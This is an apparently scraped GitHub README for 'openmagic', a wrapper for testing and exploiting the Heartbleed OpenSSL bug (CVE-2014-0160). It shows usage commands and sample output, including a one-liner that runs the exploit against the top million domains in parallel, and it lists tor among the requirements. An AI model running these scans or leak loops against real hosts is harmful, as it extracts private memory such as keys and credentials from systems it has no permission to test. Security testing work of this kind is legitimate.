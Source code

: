 # openmagic

OpenSSL TLS heartbeat read overrun (CVE-2014-0160)

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/isgroup](https://github.com/isgroup) |
| Url      | [https://github.com/isgroup/openmagic](https://github.com/isgroup/openmagic)                                               |
| Stars    | 38                                                          |
| License  | GNU General Public License v3.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

openmagic
=========

openmagic can assist you in the automating testing and exploiting of systems vulnerable to the *OpenSSL TLS heartbeat read overrun (CVE-2014-0160)*. The base module wraps a modified version of the "ssltest.py" program by Jared Stafford and provides the following additional features:

- Save the leaked data in a raw format for later analisys
- Resolve the IP so that only one DNS query is executed
- Use NMAP to check if the target service is alive (or filtered/closed)
- Check if the target is vulnerable
- Iterate and sleep between multiple requests

(C) ISGroup SRL http://www.isgroup.biz

Written by Francesco Ongaro (https://linkedin.com/in/ongaro)

Usage to test a specific port, like HTTPS:

```
$ ./ssltest.sh login.foo.com 443
# [Open  ] login.foo.com:443 (1.2.3.5)
# [Vuln  ] login.foo.com:443
# [Loop  ] login.foo.com:443 %1
...
# [Loop  ] login.foo.com:443 %1000
```

Usage to automatically test MTA systems:

```
$ ./sslmail.sh foobar.com
# [Closed] mx6.foobar.com:465
# [Closed] mx6.foobar.com:585
# [Open  ] mx6.foobar.com:993 (1.2.3.4)
# [Safe  ] mx6.foobar.com:993
# [Open  ] mx6.foobar.com:995 (1.2.3.4)
# [Safe  ] mx6.foobar.com:995
```

Test 30 most common SSL ports on a target:

```
$ ./sslports.sh www.foobar.com 30
# [ICSSL ] 1.2.3.6 (www.foobar.com)
# [Closed] 1.2.3.6:443 (1.2.3.6)
# [Closed] 1.2.3.6:21 (1.2.3.6)
# [Open  ] 1.2.3.6:22 (1.2.3.6)
# [Safe  ] 1.2.3.6:22 (1.2.3.6)
[..]
# [Closed] 1.2.3.6:2002 (1.2.3.6)
# [Closed] 1.2.3.6:5000 (1.2.3.6)
```

Kill all the running threads:

```
ps aux | grep ./ssltest.sh | awk '{print $2}' | xargs kill
```

Scan a large CSV file:

```
tail -n 1000 top-1m.csv | sort -r | cut -d "," -f2 | xargs -P 20 -I {} ./ssltest.sh {} 443
```

~DO NOT HARM~

Contribute to openmagic
--------

If you want to submit or propose a feature feel free to open an issue https://github.com/isgroup-srl/openmagic/issues.

Requirements
--------

You need in your $PATH the following dependencies: 

- bash
- python2.6
- nmap
- dig
- torify
- tor



## Get the content

```
git clone https://github.com/isgroup/openmagic
cd openmagic
```

{% embed url="https://github.com/isgroup/openmagic" %}

<figure><img src="https://avatars.githubusercontent.com/u/8706498?v=4" alt=""><figcaption><p>isgroup</p></figcaption></figure>

